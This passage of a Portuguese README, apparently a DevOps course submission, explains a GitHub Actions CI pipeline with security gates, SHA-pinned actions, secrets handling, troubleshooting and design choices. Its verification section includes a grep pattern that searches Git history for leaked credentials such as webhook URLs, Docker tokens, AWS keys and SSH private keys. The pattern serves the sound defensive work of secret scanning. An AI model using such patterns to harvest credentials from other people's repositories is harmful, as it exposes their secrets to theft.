código 1 quando acha vulnerabilidade, e sem o `always()` este seria pulado —
o relatório nunca chegaria ao code scanning exatamente quando há o que reportar.
**`category` por versão**: são três uploads do mesmo commit, um por job da
matrix; sem categoria distinta eles se sobrescrevem, e uploads simultâneos podem
colidir.

#### `pytest` e `pip-audit`

```yaml
      - name: Run tests (pytest)
        run: pytest -v

      - name: Audit dependencies (pip-audit)
        run: pip-audit -r requirements.txt
```

O `-r requirements.txt` mantém o gate focado nas dependências de **produção**.
Sem ele, `pip-audit` audita o ambiente inteiro — e um CVE no `pytest` ou no
`ruff` derrubaria o pipeline da aplicação sem ter relação com o que vai para
produção.

---

### `README.md`

O arquivo que veio no kit é do professor e explica como usar o template. Foi
substituído inteiro pela documentação da entrega — este arquivo, que é um item
explícito da rubrica.

---

### `requirements.txt`

Único arquivo de código que o grupo toca, e apenas na
[demonstração de shift-left](#2-reproduzir-a-demonstração-de-shift-left): a linha
do `requests` é rebaixada para 2.31.0 para ver o gate reprovar, e devolvida
para 2.33.0 na mesma branch. A aplicação em `app.py` não foi alterada em momento
nenhum.

---

## Variáveis, inputs e secrets

Nenhum valor fica fixo e espalhado pelo YAML. Cada tipo de dado entra por um mecanismo
diferente, escolhido pelo escopo e pela sensibilidade.

| Mecanismo | Onde é declarado | Usado para | Exemplo aqui |
| --- | --- | --- | --- |
| `env` de workflow | Topo do `ci.yml` | Valor repetido, não sensível | `DEFAULT_PYTHON_VERSION: '3.12'` |
| `env` de step | Dentro do step | Passar valores ao shell com segurança, inclusive secrets | `WEBHOOK_URL`, `RUN_URL` |
| `matrix` | `strategy` do job chamador | Dimensão que multiplica o job | `python-version` |
| `inputs` | `workflow_call` do reusable | Contrato entre chamador e reusable | `python-version` |
| Variável de repositório | `Settings → Secrets and variables → Variables` | Configuração não sensível que muda sem commit | `PYTHON_VERSIONS` |
| Secret de repositório | `Settings → Secrets and variables → Secrets` | Credencial usada por qualquer job | `NOTIFY_WEBHOOK_URL` |
| Secret de environment | Dentro do environment `staging` | Credencial que só um ambiente pode ler | `STAGING_URL` |

O `DEFAULT_PYTHON_VERSION` existe porque o job `lint` não precisa da matrix
inteira. Sem a variável, a versão ficaria escrita direto no step, e trocar de
3.12 para 3.13 exigiria caçar ocorrências pelo arquivo.

As versões testadas saem de uma **variável de repositório**, não de uma lista
fixa no YAML:

```yaml
matrix:
  python-version: ${{ fromJSON(vars.PYTHON_VERSIONS || '["3.10", "3.11", "3.12"]') }}
```

Assim ampliar ou reduzir a cobertura é uma edição em `Settings`, sem commit e sem
novo PR. O literal depois do `||` é um **valor de reserva**: sem ele, um clone deste
repositório sem a variável cadastrada quebraria no `fromJSON` de uma string
vazia. Variável, e não secret, porque a informação não é sensível — o valor
aparece no log do run de qualquer forma.

O `python-version` aparece com dois nomes diferentes de propósito: é
`matrix.python-version` no `ci.yml` e `inputs.python-version` no reusable. O
reusable não sabe que existe uma matrix — ele recebe **uma** versão por chamada.
Quem multiplica é o chamador.

> [!CAUTION]
> A URL de um webhook do Discord funciona como credencial: quem a tem consegue
> publicar no canal. Nunca faça commit do valor de um secret, nem em comentário
> nem em arquivo de exemplo — um segredo no histórico do Git continua lá depois
> de "apagado" do arquivo.

---

## Verificação

```bash
# O reusable está mesmo sendo chamado (criar o arquivo não basta):
grep -n "uses: ./.github/workflows/_reusable-test.yml" .github/workflows/ci.yml

# Nenhuma action presa a tag mutável — todas fixadas por SHA de commit:
grep -hE 'uses: [a-z].*@v[0-9]' .github/workflows/*.yml || echo "todas fixadas por SHA"

# A mesma varredura de segredos que o professor faz no histórico. As únicas
# ocorrências esperadas são o próprio padrão, citado neste README, e o exemplo
# de chave SSH em docs/cd-*.md, do starter-kit — nenhuma URL de webhook:
git log -p --all | grep -nE 'discord\.com/api/webhooks|hooks\.slack\.com|dckr_pat_|AKIA|BEGIN OPENSSH PRIVATE KEY'
```

Na interface do GitHub:

- **Actions** — o run do último push na `main` com os quatro checks verdes
- **Em um PR com dependência vulnerável** — alertas do Trivy anotados na linha alterada e botão de merge cinza
- **Após um merge na `main`** — `Deploy to staging (dummy)` em *Waiting*, com **Review deployments**
- **Discord** — card verde a cada run bem-sucedido e vermelho quando um gate reprova, com link para o run

---

## Solução de problemas

**O CI roda, fica vermelho, e o merge acontece mesmo assim.** Os required status
checks não foram marcados no ruleset. Os checks só aparecem na lista depois de
rodarem pelo menos uma vez: abra um PR, deixe o CI rodar e volte para marcá-los.

**O merge está bloqueado por um check que não existe mais.** Os nomes dos checks
mudam quando o pipeline é refatorado — introduzir a matrix ou extrair o reusable
renomeia todos eles. Rode o CI uma vez para os novos nomes aparecerem e marque-os de novo.

**`CODEOWNERS` com aviso "Unknown owner".** O usuário listado não tem acesso de
escrita ao repositório, ou o convite de colaborador ainda não foi aceito. A regra
é ignorada silenciosamente até isso ser resolvido.

**Um PR não consegue ser aprovado por ninguém.** O autor não pode aprovar o
próprio PR. Se ele for o único code owner do caminho tocado, a mudança precisa ser
proposta por outra pessoa.

**Um commit na `main` saiu com a mensagem fora do padrão.** O ruleset só permite
*squash*, e no squash o GitHub usa o **título do PR** como mensagem do commit —
título que vem preenchido com o nome da branch quando ela tem mais de um commit.
Corrigir depois exigiria force push, que o ruleset bloqueia; o que evita o
problema é revisar o título ao abrir o PR.

**O job `notify` fica verde mas nada chega no canal.** O secret
`NOTIFY_WEBHOOK_URL` não está cadastrado, e a condição `if: env.WEBHOOK_URL != ''`
pula o envio de propósito. Confira em `Settings → Secrets and variables → Actions`.

**`upload-sarif` retorna 403.** Code scanning em repositório privado exige GitHub
Advanced Security. Ver [Divergências](#divergências-em-relação-ao-enunciado).

**`Cache save failed` em um dos jobs da matrix.** É um aviso, não um erro. Os três
jobs terminam quase juntos e o GitHub recusa gravações concorrentes de cache. A
execução seguinte restaura pelo `restore-keys` e o build não é afetado.

**O workflow não dispara.** Arquivos `.yml.example` são inertes: o GitHub Actions
só executa `.yml` e `.yaml` dentro de `.github/workflows/`.

---

## Decisões de arquitetura

### O que foi usado

Tudo com versão fixada. As dependências Python vêm de `requirements-dev.txt`; as
Actions estão fixadas por SHA de commit no YAML, com a tag em comentário.

| Papel no pipeline | Ferramenta | Versão | Onde |
| --- | --- | --- | --- |
| Orquestração | GitHub Actions, runners hospedados `ubuntu-latest` | — | tudo |
| Lint | `ruff` | 0.6.9 | job `lint` |
| Testes | `pytest` | 8.3.3 | reusable |
| Auditoria de dependências | `pip-audit` | 2.7.3 | reusable |
| Scan de filesystem e SO | `aquasecurity/trivy-action` | v0.36.0 | reusable |
| Envio do SARIF | `github/codeql-action/upload-sarif` | v4.38.0 | reusable |
| Checkout | `actions/checkout` | v7.0.1 | `lint` + reusable |
| Runtime | `actions/setup-python` | v7.0.0 | `lint` + reusable |
| Cache | `actions/cache` | v6.1.0 | `lint` + reusable |
| Versões testadas | Python 3.10, 3.11, 3.12 | via `vars.PYTHON_VERSIONS` | matrix |
| Notificação | webhook do Discord via `curl` | — | job `notify` |
| Aprovação humana | environment do GitHub com *required reviewer* | — | job `deploy-staging` |

Três mecanismos do GitHub Actions sustentam o desenho: **reusable
workflow** (`workflow_call`) para não duplicar steps, **matrix** para multiplicar
o job por versão do Python, e **environment** para introduzir aprovação humana
sem escrever lógica nenhuma.

### Por que assim

**Um reusable workflow, não steps duplicados.** A matrix e a lógica de teste têm
razões de mudança diferentes. Extrair os steps para `_reusable-test.yml` faz com
que trocar as versões testadas não toque nos steps, e mudar os steps não toque nas
versões. O efeito colateral é que os checks passam a se chamar
`test (3.10) / Test (Python 3.10)` — o GitHub compõe o nome do job chamador, com
o valor da matrix, e o nome do job dentro do reusable.

**Actions fixadas por SHA de commit, não por tag.** Tags são mutáveis: `@v4` hoje
pode apontar para outro commit amanhã, dando a quem comprometer a conta do
mantenedor execução de código no pipeline, com acesso aos secrets. Cada `uses:`
aponta para o commit imutável do release, com a tag em comentário para manter a
linha legível.

**Fixar a versão não é congelá-la.** As versões dos esqueletos do starter-kit
(`checkout@v4.2.2`, `setup-python@v5.6.0`, `cache@v4.2.4`) rodam em **Node.js 20**,
que o GitHub descontinuou — cada execução reportava oito avisos dizendo que as actions
estavam sendo forçadas para o Node.js 24, e o `upload-sarif` avisava que a CodeQL
Action v3 sai em dezembro de 2026. Subimos as quatro para o release atual, cada
uma no seu SHA. É a outra metade da prática: fixar o hash protege contra a tag
mudar debaixo dos pés, acompanhar o release protege contra rodar num runtime que
o fornecedor já abandonou.

**Atenção à tag anotada do `trivy-action`.** Diferente das `actions/*`, a tag
`v0.36.0` do `aquasecurity/trivy-action` é **anotada**: o SHA que o `git ls-remote`
lista primeiro é o do objeto-tag, não o do commit. Fixar o objeto-tag faz o
workflow falhar. O valor correto é o commit (`ed142fd…`).

**`permissions` mínimo no workflow, elevado por job.** O topo declara
`contents: read`. Só o job `test` recebe `security-events: write`, porque só ele
sobe SARIF. Um workflow comprometido faz menos estrago se o token só pode ler.

**`pip-audit` restrito a `requirements.txt`.** Auditar o ambiente inteiro
misturaria dependências de desenvolvimento no gate de produção. Um CVE no `ruff`
não deveria impedir um deploy da aplicação.

**Versões da matrix numa variável, não no YAML.** Mudar a cobertura de versões é
decisão de configuração, não de código: com `vars.PYTHON_VERSIONS` isso vira uma
edição em `Settings`, sem commit e sem PR. O fallback no `||` mantém o pipeline
executável em qualquer clone.

**Tag também passa pelos gates.** `tags: ['*']` no gatilho de push garante que
nenhuma tag chegue a virar release sem ter passado por lint, testes e scans.

**Lint fora da matrix.** Rodar o linter nas três versões do Python daria o mesmo
resultado três vezes: o `ruff` analisa o código estaticamente, sem executá-lo. O
job `lint` roda uma vez na versão padrão, em paralelo com os testes.

**Notificação protegida contra secret ausente.** O step de envio só roda se o webhook
estiver configurado. Isso mantém o pipeline verde em um fork ou clone do
repositório, em vez de falhar num `curl` para uma URL vazia.

**`deploy-staging` fora dos required checks.** Um job que não roda em pull request
jamais reporta status. Torná-lo obrigatório bloquearia todo merge indefinidamente.

**Quem faz o merge não aprova o deploy.** O environment começou sem *Prevent
self-review*, e o primeiro deploy na `main` acabou aprovado por quem tinha
disparado o run. Funcionava, mas esvaziava o gate: um passo de aprovação que a
mesma pessoa cumpre sozinha evita acidentes, mas não garante uma segunda avaliação. Ligamos a
opção depois de perceber isso, e o histórico de deployments registra os dois
momentos.

O custo que temíamos não se confirmou. A opção bloqueia **quem disparou o run** —
e quem dispara é quem clica em *Merge* —, não o autor do pull request. Como o
`CODEOWNERS` já obriga que o revisor seja outra pessoa, os dois papéis se separam
sozinhos: o revisor faz o merge, o autor aprova o deploy. É a segregação de funções
que auditoria de verdade exige, obtida com um checkbox e nenhuma coordenação
extra.

**Sem publicação de imagem.** O pipeline valida e reprova; ele não empacota nem
distribui. Publicar imagem sem ter onde consumi-la adicionaria secrets de
registry e um artefato sem destino, e o enunciado desta entrega não pede.

---

## Divergências em relação ao enunciado

Quatro pontos em que este projeto divergiu da letra do enunciado. Todos preservam
o requisito de fundo, e todos foram medidos antes de decidir.

### 1. Repositório público em vez de privado

O enunciado pede repositório **privado** com o professor como collaborator
`Read`. Este repositório está **público**.

Três recursos exigidos pelo próprio material só funcionam, numa conta pessoal, com
o repositório público:

| Recurso | Em repo privado |
| --- | --- |
| Upload de SARIF para `Security → Code scanning` | Exige GitHub Advanced Security, que não vem no plano Pro |
| Branch ruleset na `main` | Exige plano pago |
| Environment com *required reviewer* | Exige plano pago |

Manter o repositório privado significaria abrir mão do gate de branch protection —
que vale 30% da rubrica — ou trocar o SARIF por uma saída em texto no log.
`@HardSource` segue como collaborator, então o acesso do professor à entrega não
muda. O requisito de fundo, **o professor conseguir avaliar o repositório**, está
atendido.

### 2. `MEDIUM` incluído na faixa de severidade do Trivy

O `docs/ci-pipeline.md` especifica `severity: HIGH,CRITICAL`. Usamos
`MEDIUM,HIGH,CRITICAL`.

O motivo é uma medição, não preferência. Rodamos o Trivy sobre a dependência
vulnerável do exercício de shift-left e os três CVEs do `requests` saem
classificados como **MEDIUM**:

```text
requirements.txt (pip)
Total: 3 (UNKNOWN: 0, LOW: 0, MEDIUM: 3, HIGH: 0, CRITICAL: 0)

requests  CVE-2024-35195  MEDIUM  fixed  2.31.0 → 2.32.0
requests  CVE-2024-47081  MEDIUM  fixed  2.31.0 → 2.32.4
requests  CVE-2026-25645  MEDIUM  fixed  2.31.0 → 2.33.0
```

Com a faixa começando em `HIGH`, o Trivy passaria **verde** exatamente na
vulnerabilidade que o `pip-audit` reprova. Dois gates de segurança discordando
sobre a mesma dependência é pior que um gate rigoroso: quem lê o resultado não
sabe em qual acreditar, e a tentação é acreditar no que libera o merge.

O custo da rigidez extra é baixo e limitado por `ignore-unfixed: true` — só
achados com correção publicada podem reprovar, então nunca há build vermelho sem
ação possível. Verificamos que o `requirements.txt` atual passa verde nessa
faixa, ou seja, a mudança não introduziu ruído.

O requisito de fundo do enunciado, **Trivy como gate de segurança que bloqueia o
merge**, está atendido com folga: ele bloqueia mais, não menos.

### 3. Dois steps que o enunciado não menciona

`if: always()` no upload do SARIF e `category` por versão da matrix. Não são
preferência: sem o primeiro, o relatório nunca chega ao code scanning quando há
vulnerabilidade; sem o segundo, os três uploads do mesmo commit se sobrescrevem e
podem colidir. Ambos estão comentados no próprio YAML.

### 4. Actions no release atual, não nas versões dos esqueletos

Os esqueletos usam `checkout@v4.2.2`, `setup-python@v5.6.0` e `cache@v4.2.4`.
Rodamos as três no release atual, e o `upload-sarif` na CodeQL Action v4.

Também foi medição: com as versões dos esqueletos, **toda execução reportava oito
avisos** no painel de *Annotations* — Node.js 20 descontinuado, actions forçadas para
o Node.js 24, e a CodeQL Action v3 saindo em dezembro de 2026. A prática que o
material ensina, fixar por SHA de commit, continua inteira; o que mudou foi o
release fixado.

---

## Créditos

Disciplina de **Pipelines de Entrega Contínua (CI/CD) e Automação de
Deployments**, ministrada por **Waltenberg Junior**, na especialização em DevOps
da CESAR School.

Aplicação, manifestos e esqueletos de workflow a partir do starter-kit da
disciplina. Os pipelines em `.github/workflows/ci.yml` e
`.github/workflows/_reusable-test.yml` são autoria do grupo.

Autoria: [@weynne](https://github.com/weynne) ·
[@diegotavares16](https://github.com/diegotavares16) ·
[@jessicacamarco](https://github.com/jessicacamarco)
